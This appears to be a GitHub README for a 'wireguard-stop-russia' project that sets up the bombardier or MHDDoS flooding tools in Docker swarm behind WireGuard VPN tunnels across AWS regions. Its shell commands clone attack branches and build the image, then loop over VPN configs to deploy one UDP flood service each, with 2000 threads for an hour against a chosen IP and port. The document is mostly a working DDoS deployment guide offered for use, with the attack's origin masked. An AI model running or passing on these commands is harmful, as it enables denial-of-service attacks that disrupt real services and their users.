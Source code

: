 #### VPN servers:
* Install Wireguard in several AWS regions
* Generate wireguard configs from this services
* Wireguard HowTo:
  * Just google...
  * Register on [VPN Unlimited](https://www.vpnunlimited.com/ru/) and export wireguard config from your account

##### Docker swarm bombardier or MHDDoS via wireguard
* ``` mkdir -p /home/$USER/wireguard-conf ```
* Put wireguard configs to some directory (example: /home/$USER/wireguard-conf)
* Spin-up spot server on AWS with Ubuntu 20.04
* Install docker
* Add tour current user to docker group ```  sudo usermod -aG docker $USER ```
* Install wireguard package on this server ``` sudo apt install wireguard ```
* Clone repo:
  * to use bombardier clone master branch:
  ``` bash
  git clone https://github.com/neironus/wireguard-stop-russia.git
  ```
  * to use MHDDoS clone dripper branch 
  ``` bash
  git clone --branch dripper https://github.com/neironus/wireguard-stop-russia.git
  ```
* Change directory to this repo
* Build docker image (It take about - 20 minutes, feel free to optimize the process): 
    ``` bash 
    DOCKER_BUILDKIT=1 docker build --tag wireguard-stop-russia . 
    ```

``` bash
# Init docker swarm
docker swarm init --advertise-addr $(hostname -i)
# If you dot an error please use next command:  
docker swarm init
# Create services with wireguard configs
# One wireguard config == 1 service with 1 replica
export WG_CONF_DIR=/home/$USER/wireguard-conf
export WIREGUARD_PORT=51820
export METHOD=udp
export IP_PORT=1.1.1.1:53 # Example!!! Don't use 1.1.1.1
export THREADS=2000
export DURATION=3600
for i in $(ls $WG_CONF_DIR); do arrIN=(${i//./ }); name=${arrIN[0]}; export WIREGUARD_CLIENT_CONFIG="$WG_CONF_DIR/$i"; docker stack deploy -c docker-compose.yml $name; sleep 1; done

# Delete services
export WG_CONF_DIR=/home/$USER/wireguard-conf
for i in $(ls $WG_CONF_DIR); do arrIN=(${i//./ }); name=${arrIN[0]}; docker stack rm $name; sleep 1; done


# List containers
docker ps 

# Get top from specific container (Get container id form prevues command)
docker top container-id 

# Get logs from specific container
docker logs container-id 
docker logs -f container-id 
```
``` bash
for i in $(ls $WG_CONF_DIR); do arrIN=(${i//./ }); name=${arrIN[0]}; export WIREGUARD_CLIENT_CONFIG="$WG_CONF_DIR/$i"; echo "$name - $WIREGUARD_CLIENT_CONFIG"; sleep 1; done

```